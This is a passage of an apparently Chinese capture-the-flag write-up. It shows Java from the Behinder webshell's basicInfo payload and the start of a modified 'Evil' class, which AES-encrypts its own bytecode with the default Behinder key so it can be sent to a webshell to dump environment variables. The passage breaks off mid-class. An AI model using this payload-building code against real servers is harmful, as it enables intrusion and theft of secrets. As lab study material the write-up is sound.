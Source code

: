 ```java
                    value = (String)Encoder.getClass().getMethod("encode", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                    value = value.replace("\n", "").replace("\r", "");
                }
            }

            sb.append(value);
            sb.append("\",");
        }

        sb.setLength(sb.length() - 1);
        sb.append("}");
        return sb.toString();
    }

    private void fillContext(Object obj) throws Exception {
        if (obj.getClass().getName().indexOf("PageContext") >= 0) {
            this.Request = obj.getClass().getMethod("getRequest").invoke(obj);
            this.Response = obj.getClass().getMethod("getResponse").invoke(obj);
            this.Session = obj.getClass().getMethod("getSession").invoke(obj);
        } else {
            Map<String, Object> objMap = (Map)obj;
            this.Session = objMap.get("session");
            this.Response = objMap.get("response");
            this.Request = objMap.get("request");
        }

        this.Response.getClass().getMethod("setCharacterEncoding", String.class).invoke(this.Response, "UTF-8");
    }
}

```

看这样子是输出env还有一些系统基础的东西，也没有涉及到命令执行，所以可能就是flag在环境变量里。所以其实直接把`System.getenv()`的结果输出出来可能也能得到flag，为了保险把冰蝎的这个basicInfo魔改一下：

```java
package com.feng.test;

import javassist.ClassPool;
import javassist.CtClass;
import java.util.Map.Entry;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.*;
import java.lang.reflect.Method;
import java.util.*;

public class Evil {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("com.feng.test.Evil");
        byte[] code = clazzz.toBytecode();
        String k = "e45e329feb5d925b";
        Cipher c = Cipher.getInstance("AES");
        c.init(1, new SecretKeySpec(k.getBytes(), "AES"));
        byte[] bytes = c.doFinal(code);
        String str = new String(Base64.getEncoder().encode(bytes));
        System.out.println(str);
    }
    //HttpServletRequest request, HttpServletResponse response
```